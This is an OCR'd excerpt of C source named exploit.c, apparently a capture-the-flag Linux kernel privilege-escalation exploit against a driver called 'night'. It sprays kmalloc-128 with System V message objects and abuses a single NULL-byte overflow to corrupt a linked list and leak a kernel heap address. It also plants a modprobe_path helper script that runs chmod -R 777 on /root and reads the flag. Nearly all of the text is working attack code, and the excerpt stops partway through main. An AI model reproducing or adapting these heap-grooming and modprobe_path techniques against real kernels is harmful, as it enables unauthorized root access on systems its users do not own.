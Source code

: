 ```exploit.c

struct msgbuf80 {
  long mtype;
  char mtext[0x80];
};
struct msgbuf80alpha {
  long mtype;
  char mtext[(DATALEN_MSG + 0x30) + 0x80 - 8]; // -8 is for msg_msgseg of second segment
};

int main(int argc, char *argv[]) {
  puts("[ ] Hello, world.");
  assert((night_fd = open(DEV_PATH, O_RDWR)) > 2);
  char *buf = mmap(NULL, PAGE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  assert(buf != MAP_FAILED);
  memset(buf, 'A', PAGE);

  // prepare for modprobe_path tech
  system("echo -n '\xff\xff\xff\xff' > /home/user/evil");
  system("echo '#!/bin/sh\nchmod -R 777 /root\ncat /root/flag' > /home/user/nirugiri");
  system("chmod +x /home/user/nirugiri");
  system("chmod +x /home/user/evil");

  // clean kmalloc-128
  puts("[.] cleaning heap...");
  #define CLEAN_N 40
  struct msgbuf80 clean_msg80 = { .mtype = 1 };
  struct msgbuf80alpha clean_msg80alpha = { .mtype = 1 };
  memset(clean_msg80.mtext, 'X', 0x80);
  memset(clean_msg80alpha.mtext, 'X', sizeof(clean_msg80alpha.mtext));
  for (int ix = 0; ix != CLEAN_N; ++ix) {
    int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    KMALLOC(qid, clean_msg80, 1);
  }

  // get diff of __kernel and edit_chunk and __kmalloc
  uint edit_kmalloc_diff = night_info();
  printf("[+] edit_chunk - __kmalloc: 0x%x\n", edit_kmalloc_diff);

  // add first chunks
  #define FIRST_N 10
  uint randvals[FIRST_N] = {0};
  printf("[.] allocating first chunks (%d)\n", FIRST_N);
  for (int ix = 0; ix != FIRST_N; ++ix) {
    randvals[ix] = night_add(buf, 0, 0x1F);
    printf("[.] alloced randval: %x\n", randvals[ix]);
  }

  // single NULL-byte overflow into night[6]->next
  night_edit(buf, randvals[5], 0, 0x20);

  night_del(randvals[4]);
  // allocate msg_msgseg + userdata at &night[4]
  int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  KMALLOC(qid, clean_msg80alpha, 1);
  // make night[2]->prev point to &night[4]
  night_del(randvals[6]);
  // leak heap addr via msg_msgseg
  ssize_t n_rcv = msgrcv(qid, &clean_msg80alpha, sizeof(clean_msg80alpha.mtext) - 0x30, clean_msg80alpha.mtype, 0);
  printf("[+] received 0x%x size of message.\n", n_rcv);
  ulong leaked_heap = *(ulong*)(clean_msg80alpha.mtext + DATALEN_MSG);
  ulong heap_base = leaked_heap - 0x380;
```
